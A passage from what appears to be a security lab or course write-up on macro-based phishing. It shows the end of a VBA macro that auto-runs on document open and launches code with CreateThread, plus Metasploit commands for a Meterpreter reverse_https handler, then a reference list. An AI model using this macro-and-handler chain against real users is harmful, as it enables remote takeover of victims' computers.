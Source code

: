         res = CreateThread(0, 0, addr, 0, 0, 0)
    End Function

    Sub Document_Open()
        MyMacro
    End Sub

    Sub AutoOpen()
        MyMacro
    End Sub
    ```
4. Use Metasploit (`sudo msfconsole -q`) and set up a `multi-handler` with the same payload used in msfvenom.
    ```bash
    use multi/handler
    set payload windows/meterpreter/reverse_https
    set LHOST tun0
    set LPORT 443
    options
    exploit
    ```

## Resources
- <https://attack.mitre.org/>
- <https://www.statista.com/statistics/218089/global-market-share-of-windows-7>
- <https://www.onecloud.com.au/resources/how-many-businesses-use-microsoft-365-in-2024/>
- <https://www.valimail.com/blog/bec-scams-cost-companies-50-billion-in-losses/>
- <https://attack.mitre.org/groups/G0046/>
- <https://attack.mitre.org/groups/G0050/>
- <https://www.cybereason.com/blog/operation-cobalt-kitty-apt>
- <https://www.kaspersky.com/about/press-releases/fin7-hacking-group-targets-more-than-130-companies-after-leaders-arrest>
- <https://www.trendmicro.com/vinfo/us/security/news/cybercrime-and-digital-threats/banking-malware-emotet-and-trickbot-go-phishing-again>
- <https://perception-point.io/blog/excel-4-0-macro-attack-qakbot-malware/>
- <https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/t1137-office-vba-macros>
- <https://www.pinvoke.net/>
- <https://i.blackhat.com/USA-19/Wednesday/us-19-Bernal-Detecting-Malicious-Files-With-YARA-Rules-As-They-Traverse-the-Network-wp.pdf>
- <https://www.sans.org/media/score/504-incident-response-cycle.pdf>
- <https://www.tanium.com/blog/are-you-prepared-for-a-security-incident-here-are-six-steps-to-help-you-be-ready/>